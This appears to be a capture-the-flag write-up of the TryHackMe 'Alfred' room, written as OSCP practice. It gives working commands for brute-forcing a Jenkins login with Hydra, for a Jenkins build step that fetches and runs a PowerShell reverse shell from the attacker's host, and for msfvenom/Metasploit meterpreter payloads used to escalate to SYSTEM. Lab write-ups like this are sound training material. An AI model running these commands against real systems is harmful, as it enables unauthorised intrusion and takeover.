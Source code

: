 # Alfred TryHackMe Writeup #
## Preface ##
Since beginning to prepare for the OSCP I have periodically bounced back and forth on my study habits which is not condusive to a smooth study experience or successful exam attempt. As I begin my refresher before beginning much more serious work I have been working through rooms I exploited before, with Alfred being the first room I did that had me scratching my head the first time. I hope this writeup helps you in the event you get stuck as I did.

## Enumeration Phase ##

Since THM provide us with the knowledge of this being a Windows device running Jenkins, this gives us an advantage when it comes to enumeration. This knowledge narrows down the first wave of enumeration we will have to perform with the first being an nmap scan to determine the ports and services running.

This can be achieved by running the comman ```sudo nmap 10.10.69.30 -Pn -p 1-9999```  which gives us three live ports which are:
| Port | Protocol | Service |
|-----:|----------|---------|
|    80|       TCP|     HTTP|
|  3389|       TCP| MS-WBT-Server|
|  8080|       TCP|   HTTP-PROXY|
80/TCP HTTP, 3389/TCP MS-WBT-SERVER, 8080/TCP HTTP-PROXY 
![NMAP Enumeration](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028174616.png)

Now that we have this information lets visit the open http ports to see what is available to us starting with 10.10.69.30:80 which just gives us a page with an image of Bruce Wayne 
![Port 80 Access](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028175000.png) 

We will now visit 10.10.69.30:8080 where we are presented with a Jenkins login page. 
![Port 8080 Access](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028175054.png) 

## Initial Access ##

We do not have the password so we can do some searching for Jenkins default passwords where we can see 12345 is a common one, but upon trying it we are unsuccessful, but the Burp Proxy gives us some useful information. 
![Burp Proxy](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028181138.png)

Now that we have a login value we need to craft  a hydra payload to run against the endpoint to bruteforce this login. When running hydra from your wordlist directory the command should look something like this:  `hydra -L fasttrack.txt -P fasttrack.txt 10.10.69.30 -s 8080 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&form=%2F&Submit=Sign+in:loginError"`  Which will take a little while to run against the endpoint so be patient. 
![Hydra Initialization](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028183503.png) 

By utilizing Hydra we see a successful login with the username admin and the password admin. 
![Hydra Success](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028190601.png)

Now that we have this login information we need to log in and be greeted with the Jenkins GUI where we see an existing project as well as the admin username showing the account we logged in under. 
![Jenkins Access](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028190845.png)

We can see that the version is Jenkins 2.190.1 so we need to reseach the functionality of Jenkins to begin getting an idea of what it does which allows us to find ways to exploit it. Once you know the functionality of the service you can then move on to using the tool that THM recommends which is Nishang, specifically the Invoke-PowerShellTcp.ps1 script inside the Nishang package.

Jenkins allows us to execute Windows batch commands on the host running the service which will allow us to pull down the PowerShell script from our machine into the Windows device where it will be executed. Upon execution our listener should pick up giving us a reverse shell. 

Once you load into the project and go into the configuration you will then find a section named build that will allow you to input a command. This will be useful to achieve initial access once we spin up a simplehttp server using the python command `python -m http.server 8000`  This will create a reachable network location for our exploit to be pulled from. We will also want to initiate a listener on port 4444 using the command `rlwrap nc -lvnp 4444` Now that we have a listener running we can push the command to the device through Jenkins by building a project containing `powershell iex (New-Object Net.WebClient).DownloadString('http://10.6.4.233:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.6.4.233 -Port 4444` 
![Reverse Shell Execution](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028213828.png)

You will now have a reverse shell into the device where you can use `whoami` to verify your role and begin looking for the first flag.
![Reverse Shell Establoshed](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028213936.png) 
![Flag Achieved](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028214328.png) 

## Privilege Escalation ##

Now that we have that initial shell we need to escalate our privileges to look for even more flags that may be under administrator accounts. This exercise has us using Metasploit and meterpreter in particular.

We will first need to create our payload using msfvenom which will be generated via the command `msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.6.4.233 LPORT=4445 -f exe -o revshell.exe` 
![MSFVenom Payload Creation](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028221202.png)

Before we build the project we will first need to get Metasploit ready by starting the postgresql service via `service postgresql start` and then running the `msfconsole` command.

Once Metasploit is launch we first need to perform a few steps before we push the exploit and begin attempting to elevate our privileges.
1. `use exploit/multi/handler`
2. `set PAYLOAD windows/meterpreter/reverse_tcp`
3. `set LHOST 10.6.4.233`
4. `set LPORT 4445`
5. `run`
This has us listening for the exploit to be sent and allowing the payload to execute.
![MSFConsole Setup](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028221944.png)

Now that we have this ready we will build our exploit command in Jenkins which will be `powershell "(New-Object System.Net.WebClient).DownloadFile('http://10.6.4.233:8000/revshell.exe','revshell.exe')"` 
![Jenkins Payload Retrieval](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028222440.png)

Once we have pushed that command from Jenkins we will want to use the `Start-Process "revshell.exe"` command from the reverse shell in the project/workspace folder to initiate the exploit. 
![Exploit Initialization](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028223121.png)

This should now allow the Meterpreter shell to begin connecting, opening the pathway to privilege escalation. 
![Meterpreter Launch](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028223212.png)

With the Meterpreter shell running it's pretty simple to elevate privileges by using the `getsystem` command which will utilize an impersonation token, preventing us from being able to explore for the root.txt flag. To truly escalate our privileges to root then we will need to look for any service that would be running under the `NT\AUTHORITY` token since this is a Windows device. A usual suspect for this would be `services.exe` so we will use `ps` to list all processes and look for the PID of `services.exe`. 
![Process Listing](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028224117.png)

Now that we have listed all of the running processes we can migrate to the `services.exe` process which is running as `NT\AUTHORITY` and search for the flag which can be done a few ways but the easiest way will be to utilize `search -f root.txt` to determine the location of the flag then using the `shell` command to launch the Windows terminal where you can use `cd C:\Windows\System32\config` to navigate to the directory housing the flag and finally use `more root.txt` to read the flag completing the exercise.
![Process Migration](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028224629.png) 
![Root Flag](https://github.com/J0hnStr0ng/THM-Alfred-Writeup/blob/main/images/Pasted%20image%2020221028224954.png) 
